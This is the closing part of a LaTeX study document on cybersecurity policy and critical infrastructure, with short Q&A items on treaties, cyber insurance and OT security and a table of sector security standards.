  \item \Q{What is the Budapest Convention on Cybercrime?}
        An international treaty harmonizing national cyber laws and facilitating cross-border digital evidence collection.

  \item \Q{How does Article 51 of the UN Charter apply to cyber attacks.}
        Allows a state to exercise military self-defense if a cyber attack causes physical destruction or human casualties equivalent to an armed attack.

  \item \Q{What are SWIFT CSCF mandatory controls?}
        Controls mandating network isolation of SWIFT terminals, strict MFA, and continuous transaction monitoring.

  \item \Q{What is Moral Hazard in cyber insurance?}
        The tendency of an insured firm to reduce its security spending, relying on insurance payouts to handle breaches.

  \item \Q{Explain the War Exclusion Clause in cyber insurance.}
        A clause allowing insurers to refuse payouts if a breach is attributed to a state-sponsored act of war.

  \item \Q{What is the role of UN GGE in cyber diplomacy?}
        Developing non-binding international norms prohibiting states from conducting malicious cyber attacks against critical civilian infrastructure.

  \item \Q{Why are connected medical devices (IoMT) vulnerable?}
        Because infusion pumps and MRI machines run unpatched embedded OSs, making them targetable by ransomware.

  \item \Q{Define Operational Technology (OT).}
        Hardware and software that detects or causes physical changes through direct monitoring of industrial plant equipment.

  \item \Q{What is the primary defense against SCADA air-gap bridging malware?}
        Strict USB port lockdown, disabling autorun, and scanning all external media before connecting to OT systems.
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[tikzbox, title={Summary Comparison: Infrastructure Security Requirements}]
\centering
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.0cm}|Y|Y|Y|}
\hline
\textbf{Infrastructure Sector} & \textbf{Regulatory Standard} & \textbf{Primary Security Control} & \textbf{Main Operational Concern} \\
\hline
Financial Banking & SWIFT CSCF / PCI-DSS & Hardware Security Modules (HSM) & Wire Fraud \& Account Takeover \\
\hline
Healthcare & HIPAA Security Rule & Field-Level AES Encryption & Ransomware \& Patient Safety \\
\hline
Energy Grid & NERC-CIP Standards & Purdue Level 3.5 Air Gap & Plant Sabotage \& Blackouts \\
\hline
Transportation & NIST SP 800-82 & Industrial Protocol Firewalls & Signaling Tampering \\
\hline
\end{tabularx}}
\end{tcolorbox}


\end{document}
